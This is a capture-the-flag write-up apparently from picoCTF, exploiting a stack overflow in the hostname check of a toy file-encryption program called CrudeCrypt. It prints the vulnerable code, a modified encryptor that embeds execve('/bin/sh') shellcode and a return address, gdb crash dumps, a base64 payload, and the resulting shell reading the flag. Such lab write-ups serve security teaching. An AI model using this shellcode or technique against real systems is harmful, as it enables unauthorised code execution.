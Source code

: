 ### Solved by barrebas

Crudecrypt is a 180 point challenge. 

We are given access to a program that can encrypt and decrypt a file. The program does not try to sanitize user input when decrypting:

```c
void decrypt_file(FILE* enc_file, FILE* raw_file, unsigned char* key) {
    int size = file_size(enc_file);
    char* enc_buf = calloc(1, size);
    fread(enc_buf, 1, size, enc_file);

    if(decrypt_buffer(enc_buf, size, (char*)key, 16) != 0) {
        printf("There was an error decrypting the file!\n");
        return;
    }

    char* raw_buf = enc_buf;
    file_header* header = (file_header*) raw_buf;

    if(header->magic_number != MAGIC) {
        printf("Invalid password!\n");
        return;
    }

    if(!check_hostname(header)) { 
        printf("[#] Warning: File not encrypted by current machine.\n");
    }
    
    // snip
    
bool check_hostname(file_header* header) {
    char saved_host[HOST_LEN], current_host[HOST_LEN];
    
    // unsafe strncpy if we supply a large string for header->host
    strncpy(saved_host, header->host, strlen(header->host));
    safe_gethostname(current_host, HOST_LEN);
    return strcmp(saved_host, current_host) == 0;
}
```

If the attacker can supply an encrypted file header with a large host field, then we can overflow the saved_host array on the stack & overwrite EIP. We modified the source of crudecrypt.c to generate such a file:

```c
void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    //safe_gethostname(header.host, HOST_LEN);
    strcpy(header.host, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
```

We encrypted the payload using this modified crudecrypt.c. Then we decrypted it, observing the crash!

```
#0  0x45454545 in ?? ()
(gdb) i r
eax            0xffffff00	-256
ecx            0x73	115
edx            0xffffd660	-10656	> perfect pointer to start of buffer
ebx            0xf7dea000	-136404992
esp            0xffffd690	0xffffd690
ebp            0x44444444	0x44444444
esi            0x0	0
edi            0x0	0
eip            0x45454545	0x45454545
eflags         0x10286	[ PF SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

Looks like ALSR is off! There was no `jmp edx` in the binary that I could find, so instead, let's just jump to the buffer:

```c

void encrypt_file(FILE* raw_file, FILE* enc_file, unsigned char* key) {
    int size = file_size(raw_file);
    size_t block_size = MULT_BLOCK_SIZE(sizeof(file_header) + size);
    char* padded_block = calloc(1, block_size);

    file_header header;
    init_file_header(&header, size);
    //safe_gethostname(header.host, HOST_LEN);
    char payload[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x8d\x54\x24\x08\x50\x53\x8d\x0c\x24\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80""BBCCCCDDDD\x30\xd6\xff\xff""FFFFAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA";
    strcpy(header.host, payload);
```

compile & run:

```
bas@tritonal:~/tmp/picoctf/crudecrypt$ gcc -o exploit exploit.c -lcrypto -lmcrypt -lssl -m32
bas@tritonal:~/tmp/picoctf/crudecrypt$ ./exploit encrypt ./a ./b
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password:         

=> Encrypted file successfully
*** Error in `./exploit': free(): invalid pointer: 0x0920f300 ***
Aborted (core dumped)
bas@tritonal:~/tmp/picoctf/crudecrypt$ cat b |base64
qmikXTf65Xauen/t3a0FDf1uZMI3baSe5I9hTVEJ5t04R0Vb8RgBltvIwvCvmbaOtou7THTwR5Vy
B9dA2GyFxMLF/wyNDY9V/y2bveRKWLam5xehXkNXQFSMhUJcd3RNwfgFxVlYswx4VfW1CiqmV45S
ZzbvWLRmeRdk1vyxXQSq0nyDhcPi8GhwnKp6R1ri
```

We transferred the base64 encoded payload to remote machine. We had to adjust the pointer to the shellcode because the address changes on stack due to environment changing. We found this new pointer by simply running gdb. 

```
pico1139@shell:~$ .///////////////crude_crypt decrypt ./sp ./bleh
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: 

Segmentation fault (core dumped)
...
#0  0xffffd674 in ?? ()
(gdb) i r
eax            0xffffff00	-256
ecx            0xb4	180
edx            0xffffd5f2	-10766
...
(gdb) x/s 0xffffd5f2
0xffffd5f2:	"Ph//shh/bin\211\343\215T$\b...BBCCCCDDDD"
(gdb) x/2i 0xffffd5f0
   0xffffd5f0:	xor    %eax,%eax
   0xffffd5f2:	push   %eax
```

After adjusting the address to `0xffffd5f0` in the exploit, we end up with a shell! A NOP sled would've been easy, in this case. 

```
pico1139@shell:~$ cat b |base64 -d > ./sp
pico1139@shell:~$ /home/crudecrypt/crude_crypt decrypt ./sp ./bleh
-=- Welcome to CrudeCrypt 0.1 Beta -=-
-> File password: 

$ id
uid=11066(pico1139) gid=1017(picogroup) egid=1012(crudecrypt) groups=1017(picogroup)
$ whoami
pico1139
$ cat /home/crudecrypt/flag.txt
writing_software_is_hard
```

The flag is `writing_software_is_hard`.

